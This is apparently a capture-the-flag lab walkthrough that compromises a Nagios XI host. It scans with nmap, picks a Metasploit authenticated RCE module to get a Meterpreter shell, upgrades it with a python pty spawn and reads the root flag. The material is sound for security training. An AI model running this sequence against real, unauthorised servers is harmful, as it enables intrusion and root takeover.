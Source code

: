 *Monitoring*

**RECON**

---
**Ip Search** 
Investigating the IP shows Nagios XI  
![image1](https://user-images.githubusercontent.com/66635295/158923291-f9f3c79d-29cd-4356-abac-a06c8a23c1c8.png)
**Login Page** 
![image4](https://user-images.githubusercontent.com/66635295/158923386-5a962c6b-12a7-4478-8ac3-7a4a7dbbfb76.png)



**Nmap Scan**  
<pre>nmap -sC -sV -A 192.168.54.136 </pre>  
-safe scripts -service version -OS /version detection  
![image3](https://user-images.githubusercontent.com/66635295/158923500-63ccf817-750b-4cc0-b922-5fec2ac9aed3.png)

**Exploit Search**
<pre>msfconsole </pre>   
<pre>search nagios </pre>   
![image7](https://user-images.githubusercontent.com/66635295/158925208-7aaf44af-6018-45f6-9136-02605a2546df.png)

**Service Version**  
Provided Exploits did not work but reavel the service version   
![image6](https://user-images.githubusercontent.com/66635295/158925523-9ec073a8-fad8-47e2-a719-fd456de16bdd.png)  
**Google-Fu**
<pre>Nagios XI Remote Code Execution</pre> 
Exploit allows for root access prior to 5.6.6  
![image11](https://user-images.githubusercontent.com/66635295/158925803-ec6d2456-8095-4b7c-9e4b-b1cbced68f63.png)

**ENUMURATION**
---
**Exploit**
<pre>use exploit /linux/http/nagios_xi_autheticated_rce</pre>
Reveales it had been moved  
![image8](https://user-images.githubusercontent.com/66635295/158925989-31db1f9c-15ac-4db7-91c5-ec38690de593.png)

**Set Options and Run**  
Provides Meterpreter Shell    
![image5](https://user-images.githubusercontent.com/66635295/158926369-64c23ac5-0917-40e2-949a-1d92f7646f11.png)

**Privilege/Root Escalation**
---
**Switch to TTY Shell**
<pre>shell</pre>  
<pre>python -c ‘import pty;pty.spawn(“/bin/bash”)’</pre>  
![image10](https://user-images.githubusercontent.com/66635295/158926563-d75b3cd4-d4fe-431b-98f2-dc7574b39e2e.png)  
**Root Flag**  
<pre>cd /root</pre>  
![image2](https://user-images.githubusercontent.com/66635295/158926788-e02ea43c-383f-4516-8506-dfced0d5e020.png)

